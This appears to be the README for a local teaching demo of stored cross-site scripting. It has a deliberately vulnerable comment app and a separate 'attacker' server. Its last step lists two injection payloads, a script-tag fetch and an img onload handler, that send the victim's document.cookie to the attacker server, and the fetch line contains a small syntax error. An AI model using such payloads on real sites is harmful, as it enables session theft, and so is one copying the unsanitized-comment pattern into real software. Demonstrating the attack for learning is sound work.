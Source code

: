 ## XSS Demo attack web app

To run this project, follow these steps:

1. Install the dependencies by running the following command:

   ```shell
   npm install
   ```

2. Launch the web application with the following command:

   ```shell
   node server.js
   ```

3. Point your browser to [http://localhost:3000](http://localhost:3000) to access the victim web app.

   Then you can enter javascript and it will be saved and run on the page: `<b>Hello from my bold comment</b>`

4. Launch the attacker with the following command:

   ```shell
   node attacker-server.js
   ```

5. Open in browser [http://localhost:4000](http://localhost:4000/) - the attacker web app

6. Add these to the victim website: 

   - the script way: <script>fetch('http://localhost:4000?data='document.cookie)</script>
   - the image way: <img src="abc" onload="this.src='http://localhost:4000?data='+document.cookie">
